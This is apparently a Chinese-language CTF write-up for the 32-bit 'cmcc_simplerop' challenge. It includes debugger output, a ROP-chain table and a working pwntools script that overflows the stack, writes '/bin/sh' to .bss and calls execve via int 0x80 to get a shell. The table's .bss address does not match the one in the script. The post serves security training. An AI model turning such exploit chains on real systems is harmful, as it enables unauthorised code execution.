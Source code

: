 ```yaml
---
title: 'cmcc_simplerop'
date: 2024-01-04 13:00:00 +0800
categories: [ctf,pwn]
tags: [int_0x80,bss,32bit]
---
```

![image-20240104201935763](../assets/img/old_imgs/image-20240104201935763.png)

- `int 0x80`调用系统函数
- `.bss`段控制
- `32`位参数控制

1. 在主函数中存在溢出,但是栈空间并不准确,需要动态调试计算

```shell
pwndbg> telescope $ebp
00:0000│ ebp 0xffffcf28 —▸ 0x80495f0 (__libc_csu_fini) ◂— push ebx
01:0004│     0xffffcf2c —▸ 0x804903a (__libc_start_main+458) ◂— mov dword ptr [esp], eax
02:0008│     0xffffcf30 ◂— 0x1
03:000c│     0xffffcf34 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
04:0010│     0xffffcf38 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcf3c ◂— 0x0
06:0018│     0xffffcf40 ◂— 0x0
07:001c│     0xffffcf44 —▸ 0x80481a8 (_init) ◂— push ebx
pwndbg> telescope $esp
00:0000│ esp 0xffffcef0 ◂— 0x0
01:0004│     0xffffcef4 —▸ 0xffffcf0c ◂— 0x41414141 ('AAAA')
02:0008│     0xffffcef8 ◂— 0x64 /* 'd' */
03:000c│     0xffffcefc —▸ 0x80495d2 (__libc_csu_init+130) ◂— add ebp, 1
04:0010│     0xffffcf00 ◂— 0x1
05:0014│     0xffffcf04 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
06:0018│     0xffffcf08 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
07:001c│ ecx 0xffffcf0c ◂— 0x41414141 ('AAAA')
```

得到距离返回地址`0x20`个距离

2. 程序中没有`system`函数也没有`/bin/sh`字符,都需要自己构造

   - 通过`int 0x80`系统调用`execve`构造`shell``

     `int80(11,"/bin/sh",null,null)`构造这样的`payload`,`11`代表了`execve`函数,在这里函数参数的传递和一般`32`位程序函数传参不同,是通过寄存器传参的,从左到右分别为`eax,ebx,ecx,edx`

   - 通过往`.bss`段上写入`/bin/sh`再调用得到`/bin/sh`

     ```shell
     bamuwe@qianenzhao:~$ file simplerop
     simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
     bamuwe@qianenzhao:~$ checksec simplerop
     [*] '/home/bamuwe/simplerop'
         Arch:     i386-32-little
         RELRO:    Partial RELRO
         Stack:    No canary found
         NX:       NX enabled
         PIE:      No PIE (0x8048000)
     ```

     程序中`.bss`段的内存地址每次运行不会改变,所以我们可以动态调试得到地址直接拿来使用

   - 在`ida`中可以看到有一个`read`函数,我们可以用它来实现往`.bss`段上的写入

     ![image-20240104203253599](../assets/img/old_imgs/image-20240104203253599.png)

     > 有点不一样但是一样

3. 构造`payload`得到`shell`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary simplerop --only int
   Gadgets information
   ============================================================
   0x080493e1 : int 0x80
   
   Unique gadgets found: 1
   ```

   得到`int 0x80`地址

   | rbp  |              |          |            |                |
   | :--: | :----------: | :------: | :--------: | :------------: |
   |      |   padding    |          |            |      0x1c      |
   |      |              |          |            |      0x4       |
   |      |  read_addr   |   ret    | 0x0806CD50 |                |
   |      |              | read_ret | 0x0806e850 | read的返回地址 |
   |      |     0x0      |          |            |      arg1      |
   |      |  b'/bin/sh'  |          |            |      arg2      |
   |      |     0x8      |          |            |      arg3      |
   |      | pop_arg_addr |   ret    | 0x0806e850 |                |
   |      |     0x0      |   edx    |            |                |
   |      |     0x0      |   ecx    |            |                |
   |      |   bss_addr   |   ebx    | 0x080EAFBA |                |
   |      | pop_eax_addr |   ret    | 0x080bae06 |                |

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
#io = process('./simplerop')
elf = ELF('./simplerop')
io=gdb.debug('./simplerop')
padding = b'A'*0x20

payload1 = padding + p32(0x0806CD50)+p32(0x0806e850)+p32(0)+p32(0x080eb7c3)+p32(0x8)
payload1 += p32(0x0806e850)+p32(0)+p32(0)+p32(0x080eb7c3)+p32(0x080bae06)+p32(0xb)+p32(0x080493e1)

io.sendlineafter(b'Your input :',payload1)
io.send(b'/bin/sh\x00')
io.interactive()   
```

> 代码可读性真的差,铁铁我爱说实话

踩了一个坑,平时用`plt`的`read`四位之后直接是返回地址,但是这里不同,`read`函数结束后才是`ret`还要重新跳转一次.

这题应该用`ROPgadgets_ropchain`也能过,但是不知道为什么没有成功

> [cmcc_simplerop - 不会修电脑 - 博客园 (cnblogs.com)](https://www.cnblogs.com/bhxdn/p/12330142.html)
>
> [[栈溢出进阶小技巧\] cmcc_simplerop一题多解 - 『脱壳破解区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1821941-1-1.html)

